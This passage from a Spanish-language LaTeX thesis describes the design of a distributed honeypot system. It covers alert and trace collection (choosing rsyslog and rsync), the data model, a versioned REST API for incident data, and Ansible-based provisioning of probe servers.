Las alertas generadas por la \emph{Honeypot} seran eventos en formato textual o binario de un tamaño pequeño ( $<$ 1MiB). 
Es importante que dichos eventos no se pierdan y que sean recolectados con la mayor celeridad posible incluso si las trazas disponibles
y la información de las trazas no está disponible.

Para la recolección de estas notificaciones, tenemos varias opciones, que se listan a continuación.

\subsubsection{Notificaciones a través de HTTP}

La \emph{honeypot} cuando detecta un evento relevante, realiza una petición HTTP a un servicio web de recolección que se ejecuta en el recolector.
Si dicho servicio no está disponible o esta congestionado, el evento se perdera.
La sonda no requiere instalación adicional de \emph{software} ya que sólo requiere realizar una petición HTTP. 
Si la conexión de red de la sonda no funciona al realizar la petición el evento también se perderá.

\subsubsection{Notificaciones usando un sistema de colas}
\label{subsubsec:notificaciones-colas}

Tendremos que instalar, configurar y mantener un sistema de colas como \emph{RabbitMQ, ZeroMQ, Kafka} 
o pagar por el uso de sistemas de colas en el \emph{cloud} como \emph{AWS SQS, AWS Kinesis o Google Cloud PubSub}.

La principal ventaja al seguir este enfoque es que los eventos seran almacenados en el sistema de colas y no en las sondas o en el recolector. Si queremos
distribuir las tareas de procesamiento y recolección eventos entre varios recolectores, necesitaremos este elemento central de coordinación.

El principal inconveniente es el coste en terminos economicos y de esfuerzo en mantener esta solucion. 
Si decidimos gestionarlo dentro del proyecto usando algo como \emph{RabbitMQ o Kafka} además del incremento economico en servidores 
debemos añadir el incremento en la complejidad del proyecto. En cambio, si apostamos por utilizar una solución \emph{cloud} la complejidad
de instalación y mantenimiento baja a costa de un mayor desembolso economico y a aceptar las capacidades tecnicas y limites que las soluciones 
\emph{cloud} tienen.

Para este proyecto, el orden estricto de recepción de eventos no es necesario. No nos importará el orden de eventos recibidos siempre y cuando
ningun evento se entregue con demasiada posterioridad.
\begin{table}[h]
    \centering
    \begin{tabular}[!h]{|l|l|r|}
    \hline
    \thead{Opcion} & \thead{Comentarios} & \thead{Coste aproximado} \\
    \hline
    \emph{AWS SQS} & 10.000.000 de peticiones, 3 GiB de transferencia & 5\$ mes \\
    \hline
    \emph{Google PubSub } &  10 GiB de eventos & 0.36\$ mes \\
    \hline
    \emph{RabbitMQ} & 3 instancias (512 MiB,1 CPU, 20 GiB de disco) & 15\$ mes \\
    \hline
    \end{tabular}
    \caption{\label{tab:colas-coste} coste aproximado minimo de sistemas de colas}
    \end{table}


El cuadro \ref{tab:colas-coste} refleja el coste de sistemas actuales con el precio fijado en la fecha de redacción de esta memoria. En el no se contemplan costes indirectos,
como el coste de las horas invertidas en configurar y puesta a punto del sistema, que en el caso de las soluciones \emph{cloud} aunque no es cero, es menor que la solucion de hacerlo \emph{in-house}.

Tampoco se tiene en cuenta la escalabilidad de la solucion, que en el caso de las soluciones \emph{cloud} el sistema es escalable a costa de un precio cada vez mayor, mientras que en la solucion in-house los costes son
fijos hasta que se consuma toda la capacidad. El volumen de eventos a procesar dependera de las condiciones de red de la instalación y el volumen de eventos por lo que no podemos
proporcionar un numero de referencia de eventos a procesar.

Las soluciones \emph{cloud} tienen un coste indirecto, nos ligan a un proveedor en concreto. Si escogemos que nuestras \emph{honeypots} se desplieguen en otros proveedores diferentes, tendremos que hacer
pruebas de red para saber si la conectividad entre proveedores es buena, y tendremos costes adicionales en terminos de trafico de red.

Los proveedores de servicios de computación en exclusiva (\emph{VPS}, \emph{Housing}) no suelen cobrar el trafico de red a no ser que superemos ciertos umbrales.

\subsubsection{Notificaciones usando un recolector de \emph{logs}}
\label{subsubsec:usando-rsyslog}

Podemos considerar esta opción como una hibrida de las anteriores, instalaremos una aplicación de recolector de logs en la sonda. 
La sonda escribirá eventos en disco cuando estos se produzcan, el sistema de recoleccion de logs monitorizará los \emph{logs} en disco, y
se encargará de reenviar estos eventos al recolector, preferentemente utilizando un canal seguro para la transmisión.

Si hay problemas en la conectividad de red entre la sonda y el recolector, los eventos se guardarán en un \emph{buffer} en disco y se reenviaran cuando la parte servidor este disponible.

Como ejemplo de estas aplicaciones de recolección de \emph{logs} podemos citar, \emph{rsyslog,logstash,syslog-ng o fluentd}. \emph{rsyslog} y \emph{syslog-ng} son más veteranas, 
en cuanto \emph{logstash} y \emph{fluentd} más recientes. 

La diferencia entre las antiguas y recientes radica en que las recientes hacen enfasis en la capacidad de manipulacion de los \emph{logs} antes de su envio, mientras
que las antiguas estan más probadas y su enfoque es hacia garantizar el envío de \emph{logs} de manera segura.

El coste computacional de estas soluciones aunque no es negligible es muy bajo, es necesario procesar un volumen muy elevado de logs para que tenga impacto.
El recolector deberá encargarse de ser capaz de albergar todos los logs recibidos, ya sea porque a su vez reenvia los \emph{logs} a otra ubicación o se encarga de la 
politica de rotado. 

\subsubsection{Opción escogida}

Para este proyecto escogemos la opción de utilizar un recolector de \emph{logs} en nuestras sondas y reenviarlos a nuestro recolector de eventos. 

\begin{enumerate}
    \item La opción de notificar mediante peticiones HTTP es la más simple desde el punto de vista de la sonda y la deseable, pero no nos otorga garantias de entrega.
    \item Utilizar sistemas de colas es lo deseable para escalar la solución, desacopla los productores de eventos de los consumidores,
     y para la sonda la semantica de entrega es igual de simple que en el caso de la opción HTTP. Sin embargo, el coste economico y la complejidad elevada que introduce no justifica su acogida.
     En un estado posterior del proyecto, siempre se puede pivotar a utilizar un sistema de colas.
\end{enumerate}

En concreto se utilizará \emph{rsyslog} como recolector de \emph{logs} por sus pocas necesidad de memoria y CPU y su estabilidad. Las capacidades de modificación de \emph{logs}
antes de su envio no son necesarias para este proyecto y \emph{logstash} y \emph{fluentd} tienen un \emph{footprint} de uso de memoria mucho mas elevado.

\subsection{Recolección de trazas}

Las trazas generadas por la \emph{honeypot} seran ficheros binarios de un tamaño elevado ($>$ 25 MiB), en el se recogerán todos los eventos del sistema instrumentalizado (\emph{syscalls},datos,\ldots).
Tendremos que buscar un sistema que nos permita recolectar todas las trazas de todas las sondas. Es importante notar que
las trazas una vez procesadas no son estrictamente necesarias, aunque es útil mantener un historico de ellas por dos motivos:

\begin{enumerate}
    \item Permitir el estudio analitico en base a un historico.
    \item Facilitar el reprocesamiento en caso de errores de procesado (\emph{backfilling}). Idealmente nuestro método de extracción de
    datos deberia ser correcto y tener los suficientes tests y garantias pero aún asi los errores pueden ocurrir.
\end{enumerate}

\subsubsection{Envio de trazas a almacenamiento en la nube}

Si decidimos no gestionar las trazas nosotros, podemos optar por almacenar las trazas en la nube en soluciones \emph{cloud}. Para conocer el coste aproximado
supongamos que queremos almacenar 500GiB de trazas por mes (aprox 18 GiB por dia). En ese caso, el coste en \emph{AWS} y \emph{Google Cloud} para almacenarlos
en una región europea, teniendo en cuenta los costes de tráfico de salida fuera del proveedor sería:

\begin{table}[h]
    \centering
    \begin{tabular}[!h]{|c|c|}
    \hline
    \thead{Proveedor} & \thead{Coste en dolares} \\
    \hline
    \emph{AWS}, resto de servidores fuera &  57.52 \$ \\
    \hline
    \emph{Google Cloud}, resto de servidores fuera &  78.08 \$ \\
    \hline
    \emph{AWS}, con servidores en mismo proveedor  &  11.89 \$ \\
    \hline
    \emph{Google Cloud}, con servidores en mismo proveedor & 10.44 \$ \\
    \hline
    \end{tabular}
    \caption{\label{tab:almacenamiento-coste} coste aproximado de almacenamiento en la nube para 500 GiB}
    \end{table}

En el cuadro \ref{tab:almacenamiento-coste} se reflejan los costes mensuales de almacenar 500 GiB. 
En el se observa que es sensiblemente más barato si no hay transferencia de datos fuera del proveedor. 

Aunque eso obliga a comprar servidores en el mismo proveedor que puede elevar el coste total del proyecto.

\subsubsection{Sistema de archivos distribuido}

Otra opción es montar un sistema de archivos distribuido dentro del proyecto y no usar sistemas de almacenamiento externos
en la nube. Como ventajas:

\begin{enumerate}
    \item Para la aplicación el sistema de archivos es infinito e ilimitado en espacio.
    \item La interfaz de comunicación puede ser como un punto de montaje más en el sistema de archivos o a través de 
    peticiones HTTP \emph{a la S3}.
    \item El rotado, eliminación y mantenimiento y ajuste de los archivos dentro del sistema de archivos es responsabilidad de este.
\end{enumerate}

Como inconvenientes, podemos enumerar:

% se necesita una buena conexion de red.
% punto critico si cae
% sistemas complejos no faciles de mantener

\begin{enumerate}
    \item Se necesita una buena conexión de red entre los servidores que conformaran el sistema de archivos distribuido, y entre estos y las sondas y el recolector como clientes. 
    Por la naturaleza del proyecto, nos interesa tener las sondas en diferentes proveedores y diferentes regiones. La conectividad entre diferentes proveedores y regiones es muy irregular, por lo que no podemos contar con una conexión de red estable y/o rapida.
    \item el sistema de archivos distribuido se convierte en un punto critico (\emph{SPOF, Single Point of Failure}). Aunque intentemos que el sistema de archivos sea distribuido y escalable en caso de error del sistema, el sistema dejara de funcionar en su totalidad.
    Las sondas dejaran de ser capaces de publicar las trazas en el sistema de archivos, y los procesadores de datos seran incapaces de leer nuevas trazas y procesarlas.
    \item Son sistemas complejos de optimizar, configurar y mantener y que requieren una inversión inicial y sostenida de esfuerzo para ser operados.
\end{enumerate}

Tradicionalmente se ha utilizado \emph{NFS} para configurar y utilizar sistemas de archivos en red (no distirbuidos) en Linux (véase \cite{wiki-nfs}). 
Si queremos ofrecer a los clientes nuestro sistema de archivos como un punto de montaje extra en el sistema, podremos utilizar
\emph{NFS}, \emph{GlusterFS} (\cite{wiki-glusterfs}) y/o \emph{Ceph} \cite{wiki-ceph}.

La diferencia fundamental del primero con los segundos es que el conjunto de discos duros y almacenamiento en \emph{NFS} esta gestionado de manera local
por cada nodo que forme parte del sistema, en tanto en cuanto en sistemas como \emph{GlusterFS} y \emph{Ceph} los nodos forman parte de un 
mismo \emph{pool} de discos duros, donde se pueden configurar opciones de replicación para garantizar que los archivos no se pierden si 
se pierden la conectividad a un nodo.

\emph{Ceph} y otros poyectos como \emph{\href{https://minio.io/}{Minio}} proveen de una interfaz compatible con \emph{AWS S3}, que puede ser una ventaja importante
si queremos migrar de un sistema a otro, y que, ademas simplifica la configuración en los clientes.

En lugar de tener que montar el sistema de archivos como cliente de nuestro sistema de archivos distribuido basta 
realizar peticiones HTTP a un servidor. De esta manera la configuración del sistema es menor y mucho más simple.

\subsubsection{Envio de trazas a un servidor interno de almacenamiento}.

Otra opción sera utilizar el almacenamiento local en las sondas y el almacenamiento local en el recolector para guardar las trazas.
Las sondas escriben las trazas en el disco local, y algun proceso en el recolector se encarga de periodicamente de conectarse a las sondas,
comprobar si hay nuevas trazas y descargarlas.

las ventajas de este enfoque son:
\begin{enumerate}
    \item No incurrimos en costes adicionales, utilizamos el almacenamiento local.
    \item La estabilidad de la red deja de ser un problema, si la red no esta disponible o es lenta entre las sondas y el recolector se iran almacenando mientras haya espacio.
    \item es fácil de combinar con uno de los dos enfoques anteriores para almacenamiento de caracter mas permanente.
\end{enumerate}

Que presenta los siguientes inconvenientes:

\begin{enumerate}
    \item La latencia de entrega de trazas puede ser mayor y en cualquier caso es variable.
    \item La posibilidad de perder trazas debido a perdidas de conexión de red entre la sonda y el recolector muy prolongadas.
    \item El almacenamiento es finito y no facilmente ampliable, se han de eliminar trazas para asegurar que las trazas nuevas puedan
    ser procesadas.
\end{enumerate}

Para implementar éste enfoque necesitamos una herramienta para la transimion eficiente y sincronizada de archivos. Para este fin,
\emph{rsync} es una herramienta clasica ampliamente utilizada (citada por ejemplo en \cite{Ph.D.200301} y \cite{douglis2004web}).

Deberemos limitar el ancho de banda que \emph{rsync} utilizará para evitar la congestión de la red para otros usos.
% rsyslog 

\subsubsection{Opción escogida}

La opción escogida será la tercera. Siempre se puede cambiar e incorporar las otras opciones más adelante cuando el proyecto lo requiera y el gasto economico
y/o la complejidad añadida supera con mucho las ventajas que aportan.

Enviar trazas a través de \emph{rsync} tiene sus propios retos, aceptamos así que se podran perder trazas y que no almacenaremos
demasiadas trazas para analisis historico y/o para poder reprocesar.

Pero su simplicidad y bajo coste junto a su compatibilidad con otras opciones la convierten en la opción escogida.

\subsection{Modelo de datos del sistema}
\label{subsec:modelo-de-datos}
No se entrará en detalle de que sistema de gestión de bases de datos utilizar, pero si  se ha de analizar cual es el modelo de datos
adecuado para el proyecto en el contexto del dominio.

La información extraida es muy relevante cuando es reciente y pierde relevancia en muy poco tiempo, información de un ataque realizando
hace un año es poco relevante, habran surgido nuevas versiones del \emph{software}, el método de ataque ya habrá sido analizado y el único interes
que tiene es como aportación para un estudio estadistico.

Por ello nuestro modelo de datos será el de una serie temporal con foco en la busqueda. La inserción de datos se realizará muy poco frecuentemente, idealmente una vez
y posiblemente nuestro modelo no sea relacional o no evidentemente relacional, ya que la integridad de los datos no es relevante y no podemos saber a priori que busquedas
seran las relevantes, por lo que una base de datos sin esquema seria conveniente.

Si tenemos una alerta sin más información adicional, aunque no tiene tanto valor como una alerta con toda la información es de por si relevante.

\section{Análisis de soluciones para la explotación}

\subsection{Generalidades}

De cara a la explotación de datos, debemos presentar a los potenciales usuarios de una interfaz. Esta interfaz puede estar
orientada a humanos o a aplicaciones. Es evidente que en algun momento hay que representar visualmente la información para que algún usuario pueda explotarla,
la cuestión es sí debemos enfocar el esfuerzo del proyecto a crear esta visualización o merece más la pena construir
una interfaz para aplicaciones y dejar a terceros la construcción de visualizaciones finales.

\begin{enumerate}
    \item[Informes] Incluyen habitualmente graficas resumen y datos de caracter estadistico, son útiles para reconocer tendencias y patrones, menos útiles para actuar a un ataque en tiempo real.
    \item[API] una interfaz para aplicaciones que clientes pueden integrar para responder ante incidentes o construir un informe de manera programatica.
\end{enumerate}

hay diversos ejemplos de \emph{Honeypots} que generan informes como metodo de explotación del usuario (enlace a un \href{http://www.nothink.org/honeypot_ssh.php}{ejemplo}, también disponible en figura \ref{fig:informe-honeypot}).

\begin{figure}[h]
    \centering
      
\includegraphics[scale=0.3]{images/honeypot_informe}
    \caption{Ejemplo de informe de \emph{Honeypot}}
    \label{fig:informe-honeypot}
  \end{figure}

El informe es vistoso y permite observar y analizar tendencias y patrones, pero si queremos responder a un ataque no es sencillo, si ademas estamos interesados en un subconjunto de los ataques
en un informe no suelen implementarse los filtros necesarios para analizarlos.

Por ello, como herramienta de explotación de datos se ofrecerá una API que terceros pueden utilizar para generar sus informes o procesar los incidentes y responder
en tiempo real.

% 20/08/2017
\subsection{Objeto de la API}

El objeto de la API es la de proveer una interfaz de datos que sea consumible por aplicaciones y que puede ser expuesta en diversos formatos.
Es importante que cuando describamos los actores en un incidente lo hagamos siempre en referencia a un marco temporal, los atacantes
en un incidente no tienen porque ser los promotores del ataque, a menudo, los promotores utilizan maquinas infectadas de sus victimas para ejecutar el ataque
y por tanto sería contraproducente marcar estas victimas y responder de manera agresiva con un bloqueo por ejemplo.

El marco temporal ayuda al cliente a determinar si el atacante es recurrente en sus ataques o victima y deja en el cliente la decisión sobre que realizar al respecto en base a 
las politicas y necesidades de su entorno.

\subsection{API}

La API será de consulta, no sé plantea como objetivo la posibilidad de crear incidentes a través de ella. La API será
de tipo \emph{REST} (véase \cite{rest}). Arquitecturar las APIs usando rest es un estandar defacto, quizás si nuestra API fuese parte de
un ecosistema complejo y/o que fuese orientado especialmte a moviles, podriamos plantear el uso de \emph{GraphQL} (\cite{graphql}), aunque su madurez
a nivel de herramientas y adoptación no es comparable al de APIS REST.

\subsubsection{versionado}

La definición del contrato de la API no está basado en experiencia de uso de nuestros clientes, es por ello que tendremos que establecer 
un método que permite la evolución o el cambio de la misma. Existen varios métodos de versionado, entre otros:

\begin{enumerate}
    \item[Parametro] Se pasa la versión de la API como parametro de la petición, algunos \emph{proxies} pueden eliminar el parametro y conducir a errores.
    \item[URL] la URL contiene la versión de la API a la que se quiere acceder, su ventaja es que es fácil de saber que versión utilizamos y es fácil de depurar, la desventaja es que afea y puede complicar la
    URL.
    \item[Cabecera HTTP] Se pasa la versión de la API que queremos usar como una cabecera HTTP. La ventaja es que la URL no cambiará con 
    cada nueva versión de la API. 
\end{enumerate}

Según algunas fuentes el versionado por URL es más popular (\cite{3scale-versionado)}, y por ello escogemos este aunque el versionado como cabecera HTTP se adhiera más a \emph{REST}.

\subsubsection{Definición de la API}
\label{subsubsec:definicion-api}

\begin{table}[h]
    \centering
    \begin{tabular}[!h]{|c|c|}
    \hline
    \thead{Verbo HTTP} & \thead{URL} \\
    \hline
    GET & /v1/\emph{{aplicacion}}/incidents  \\
    \hline
    GET & /v1/\emph{{aplicacion}}/feed  \\
    \hline
    \end{tabular}
    \caption{\label{tab:definicion-api} Definicion de API externa, de clientes.}
    \end{table}

    Como puede verse en el cuadro \ref{tab:definicion-api}, solo necesitaremos dos funciones inicialmente para nuestra API, una donde se pidan incidentes. 
El modelo concreto de que define un incidente y los datos que se han de incluir dependerá de la aplicación, puede ser también interesante ofrecer un 
\emph{endpoint} de \emph{feed} que devuelva de manera continua los datos encontrados. La diferencia entre ambos endpoints es que
el de \emph{incidents} devolvera los datos de los incidentes segun unos criterios mientras el endpoint de \emph{feed} devolverá 
de manera continua e ininterrumpida los datos que se vayan encontrando.

Para el \emph{endpoint} de incidentes podremos parametrizar la consulta segun los parametros que pueden verse en el cuadro \ref{tab:parametros-api}, en el caso
de no especificar ninguno se estableceran por defecto para devolver algun numero de eventos recientes.
    \begin{table}[h]
        \centering
        \begin{tabular}[!h]{|l|c|}
        \hline
        \thead{ Nombre} &  \thead{Contenido} \\
        \hline
        from & fecha en formato ISO 8601 \emph{YYYY-MM-DDTHH:MM:SS(Z$|$+-HH:MM)}  \\
        \hline
        to & fecha en formato ISO 8601 \emph{YYYY-MM-DDTHH:MM:SS(Z$|$+-HH:MM)}  \\
        \hline
        size & entero natural positivo \\
        \hline
        \end{tabular}
        \caption{\label{tab:parametros-api} Definicion de parametros la API}
        \end{table}
    
\subsubsection{Formatos de salida}

El objeto de la API es la de ser utilizada por aplicaciones como formato de salida podremos utilizar \emph{XML} o \emph{JSON}, siendo 
este último más utilizado en la actualidad.

Como esquema de datos podremos utilizar o basarnos en \emph{STIX} (\cite{oasis-stix}), un lenguaje estructurado para compartir información de seguridad entre organismos
desarrollado por el grupo OASIS.
\clearpage

\chapter{Resultados finales}
\minitoc{}


\section{Arquitectura}

La arquitectura final puede observarse en la figura \ref{fig:arquitectura-general}. En ella se encuentran los siguientes elementos:

\begin{enumerate}
    \item[Sondas] Desplegadas en varios proveedores y regiones del mundo, instalaremos y configuraremos tantas de ellas como
    diferentes muestras de datos queramos obtener, es el elemento más dinamico de la arquitectura. El limite del crecimiento lo impone la capacidad
    del recolector y backend, mientras este sea capaz de absorber y procesar el volumen de datos obtenido en las sondas podremos crear nuevas.
    \item[PKI y control] Se encarga de las funciones externas como el almacenamiento de secretos (gestiona la \emph{PKI (Public Key Infrastructure)} interna, monitoriza el resto de elementos y lanza el provisionamiento y la configuración).
    \item[Recolector y Backend] Se encarga de almacenar las trazas de las sondas y de albergar los servicios encargados para el procesado y la explotacion como la API. Este elemento es un \emph{SPOF (Single Point Of Failure)}, si cae el backend y la recoleccion quedan inutilizados.
    Las razones para éste diseño son puramente economicas y de simplicidad, si queremos un sistema robusto y escalable convendria separar funciones y tener un esuqema que permita el escalado horizontal.
\end{enumerate}

\begin{figure}[h]
    \centering
      
\includegraphics[scale=0.5]{images/arquitectura_general}
    \caption{Diagrama de arquitectura general}
    \label{fig:arquitectura-general}
  \end{figure}

\subsection{Provisión y configuración de servidores}
\label{subsec:server-config}

Uno de las mitigaciones explicadas en \ref{subsec:riesgos} es tener la capacidad de crear sondas con frecuencia. La creación de la sonda implica
los siguientes pasos:

\begin{enumerate}
    \item[Provisión] Solicitar al proveedor un nuevo servidor de unas caracteristicas (o ponerlo en marcha en nuestros datacenters).
    \item[Configuración] Instalación de los paquetes de herramientas, software y configuración necesarios para que la sonda pueda funcionar.
    \item[Operación] Realizar cambios post-configuración tales como actualizacion de paquetes de seguridad.
\end{enumerate}

Todos estos pasos pueden ser ejecutados por un operador humano y a menudo lo son, pero si queremos un proceso repetible, rapido y automatizado
no podemos permitirnos que estos procesos sean manuales, ya que imposibilitan crear un nuevo servidor en el orden de minutos.

\subsubsection{Infrastructura como codigo}
\label{subsec:infra-as-code}

Un enfoque que nos acerca al objetivo de ser capaces de desplegar nuevas maquinas en minutos, necesaria en un entorno dinamico, es adoptar la practica
de infrastructura como codigo (véase \cite{fowler-infra-as-code}). Dicha practica se basa en:

\begin{itemize}
    \item Definición en ficheros. Toda la configuracion se recoge en ficheros ejecutables, ninguna persona deberia entrar en el servidor
    y realizar cambios de configuracion manualmente, de hacerlo, estaria creando servidores unicos fragiles (\emph{Snowflake Servers}).
    \item Autodocumentacion.El código documenta el proceso seguido para la configuracion sin necesidad de una documentacion externa orientada a un humano (aunque la documentacion pueda y es aconsejable que exista en algunos casos), esto evita que la documentacion quede anticuada.
    \item Versionado. El código fuente que define la infrastructura se mantiene en un sistema de control de versiones de código,lo que permite ser auditado y lanzar ejecuciones reproducibles (lanzar una versión especifica).
    \item Cambios pequeños. Si se realizan cambios pequeños en código es facil diagnosticar cuando se introducen errores.
\end{itemize}
 
Este enfoque requiere que haya algun proceso de \emph{Continuous Integration} o \emph{Continous Delivery} o la definicion de los ficheros
de la configuración no se corresponderá con la configuración que se encuentra en los servidores (\emph{Configuration Drift}). Si construimos 
un proceso de aplicación de la configuración que se lance desde algún cambio del código podremos conseguir:

\begin{itemize}
    \item Cambios \emph{in-place}. Aplicaremos los cambios sobre los servidores que ya se ejecuten, cambiando configuración en caliente de los servicios que corren.
    Se corre el riesgo de dejar el servidor con una configuración incompleta, pero para servidores que manejan datos y/o estado es normalmente la opción más sencilla. Si la configuración
    está suficientemente proabada en un entorno identico al de producción y es correcta los servidores convergeran a la configuración descrita. 
    \item \emph{Phoenix servers}. Cada cambio de configuración involucra crear un servidor de nuevo y configurarlo completamente desde la configuración almacenada.
    Requiere que exista algun mecanismo de promoción entre servidores, asi la versión antigua se ejecuta a la vez que la nueva. De otra manera, habría caida del servicio. Los costes pueden ser más elevados que si seguimos una estrategia \emph{in-place}
    puesto que un cambio implica la creación de un nuevo servidor y su configuración completa. Si el proceso de configuración falla a la mitad del proceso, la configuración será inestable y el servidor tendrá malfuncionamiento.
    \item \emph{Immutable servers}.Es un refinamiento de la estrategia anterior, en lugar de crear servidores nuevos y configurarlos desde la configuración almacenada, nuestro proceso crea una imagén del servidor que será el artefacto que desplegamos en el proveedor.
    El proveedor tiene que ser capaz de soportar este enfoque, \emph{AWS} soporta \emph{AMIs} imagenes de servidores descritos como maquinas virtuales.  
\end{itemize}

A no ser que escojamos proveedores que soporten algún tipo de imágenes inmutables de servidores como \emph{AWS o Google Cloud}, tendremos que utilizar \emph{Phoenix Servers} o cambios \emph{in-place}.
En el contexto de nuestra arquitectura, las sondas seguiran un enfoque \emph{Phoenix Servers} pudiendo ser recreadas completamente desde la configuración almacenada.

El recolector y el servidor de PKI y control serguirán una estrategia \emph{in-place} puesto que ambos guardan estado y/o datos. Seguir una estrategia \emph{Phoenix} en estos
significaria replicar estados y/o datos previamente al despliegue lo que aumentaria la complejidad del sistema.

\subsubsection{Eleccion de herramienta de gestión de la configuración}

Para implementar infrastructura como código se necesita utilizar una herramienta que defina como almacenar la configuración
como ejecutarla en servidores e idealmente bibliotecas de funciones y modulos que faciliten la descripción de servicios.

Existen varias herramientas de este tipo, aunque la industria utiliza cuatro utilidades de facto para gestión de la configuración, \emph{Ansible},\emph{Puppet},\emph{Chef}
y  \emph{SaltStack}. Como puede verse en la figura \ref{fig:configmanagement1} cualquiera de esas opciones tiene una comunidad importante, muchos usuarios y pocas diferencias
fundamentales. \emph{Saltstack} y \emph{Ansible} se desarrollan en \emph{Python} y son más recientes que \emph{Puppet} y \emph{Chef}.

En este proyecto se decide utilizar \emph{Ansible} como herramienta de gestión de la configuración por ser \emph{Python} un lenguaje conocido, tener una barrera de entrada muy baja
y cumplir de sobra con los requisitos para este proyecto (es capaz de provisionar maquinas en algunos proveedores, configurarlas y lanzar ordenes una sola vez atendiendo a filtros).

\begin{figure}[h]
    \centering
      
\includegraphics[scale=0.5]{images/configmanagement_tools1}
    \caption{Comparativa de herramientas de configuración, extraido de \href{https://www.slideshare.net/DanielKrook/caps-whats-best-for-deploying-and-managing-openstack-chef-vs-ansible-vs-puppet-vs-salt}{una charla de IBM}}
    \label{fig:configmanagement1}
  \end{figure}

\section{Arquitectura de la sonda}

A continuación incluimos la arquitectura final de la sonda, que puede observarse en la figura \ref{fig:arquitectura-sonda}.

\begin{figure}[h]
    \centering
      
\includegraphics[scale=0.5]{images/probe_architecture}
    \caption{Arquitectura de la sonda}
    \label{fig:arquitectura-sonda}
  \end{figure}

\subsection{Elección del sistema operativo de la sonda}
\label{subsec:sonda-so}
  
La eleccion del sistema operativo tiene una componente en la que tendremos que tener en cuenta las capacidades del sistema operativo para su securizacion,
la existencia o no de actualizaciones de seguridad y las herramientas que incluye en su repositorio.

Para este proyecto se ha escogido GNU/Linux como sistema operativo por las herramientas que nos provee para gestionar nuestra \emph{honeypot} y su mejor soporte
